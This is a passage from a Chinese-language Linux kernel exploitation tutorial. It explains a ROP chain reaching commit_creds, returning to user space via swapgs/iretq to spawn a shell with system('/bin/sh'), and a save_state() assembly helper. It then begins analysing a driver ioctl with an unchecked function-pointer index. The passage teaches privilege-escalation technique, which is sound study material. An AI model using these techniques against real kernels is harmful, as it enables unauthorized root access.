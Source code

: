 注意：**ROP链中的pop rdx; ret**。这是因为在call rdx后并没有ret，在调用call rdx时，call指令会将内核空间处call的下一条指令push到堆栈中，call完后返回继续执行原call后面的指令；在call rdx时执行pop rdx; ret，将call指令后的地址pop后，这时ret的指向的堆栈中正是我们期望的commit_creds。

在完成提权后，我们还需要返回到用户空间里执行system('/bin/sh')，用下面的两个指令：

```
swapgs
iretq
```

使用iretq指令返回到用户空间，在执行iretq之前，执行swapgs指令。该指令通过用一个MSR中的值交换GS寄存器的内容，用来获取指向内核数据结构的指针，然后才能执行系统调用之类的内核空间程序。
iretq的堆栈布局如下：

```
|----------------------|
| RIP                  |<== low mem
|----------------------|
| CS                   |
|----------------------|
| EFLAGS               |
|----------------------|
| RSP                  |
|----------------------|
| SS                   |<== high mem
|----------------------|
```

新的用户空间指令指针(RIP)、用户空间堆栈指针(RSP)、代码和堆栈段选择器(CS和SS)以及具有各种状态信息的EFLAGS寄存器。RIP指向system('/bin/sh)'以获取一个shell。使用下面的save_state()函数从用户空间进程获取CS，SS和EFLAGS值：

```
unsigned long user_cs, user_ss, user_rflags;

static void save_state() {
        asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}
```

## 五、开始ROP

### 1. 漏洞分析

```c
static long device_ioctl(struct file *file, unsigned int cmd, unsigned long args) {
	struct drv_req *req;
	void (*fn)(void);
	
	switch(cmd) {
	case 0:
		req = (struct drv_req *)args;
		printk(KERN_INFO "size = %lx\n", req->offset);
                printk(KERN_INFO "fn is at %p\n", &ops[req->offset]);
		fn = &ops[req->offset];
		fn();
		break;
	default:
		break;
	}

	return 0;
}
```